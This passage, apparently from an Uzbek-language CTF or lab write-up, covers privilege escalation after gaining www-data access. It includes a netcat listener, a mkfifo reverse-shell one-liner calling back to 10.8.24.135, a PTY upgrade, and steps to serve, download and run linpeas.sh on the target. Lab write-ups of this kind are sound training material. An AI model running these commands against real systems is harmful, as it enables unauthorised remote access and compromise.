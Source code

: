 

Eksplatatsiya muvaffaqiyatli bajarildi. Biz hozir www-data useridamiz... Bizning endi maqsadimiz imtiyozlarni oshirish)

## Privilage Escalation
Keling jarayonni osonroq bo'lishi uchun serverdan o'zimizga Reverse Shell ochamiz.

O'zimizga:
```
nc -lvnp 4445
```

Serverga:

```
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 10.8.24.135 4445 > /tmp/f
```

TTY ochish:

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```



Bizga tizimni tahlil qilishda yordam beradigan dastur bu LinPeas.sh. 

Uni yuklab olish:

```
wget https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh
```

Kompyuterimizga yuklab olgach biz o'zimizdan HTTP server ochib faylni serverga olib o'tamiz.

Http server ochish:

```
sudo python3 -m http.server 80
```

Serverga yuklash:

```
wget 10.8.24.135/linpeas.sh
```

Unga Execution huquqini berish:

```
chmod +x linpeas.sh
```

Ishga tushurish:

```
./linpeas.sh -a > res.txt
```

Jarayon yakunlangach esa:

```
cat res.txt
```

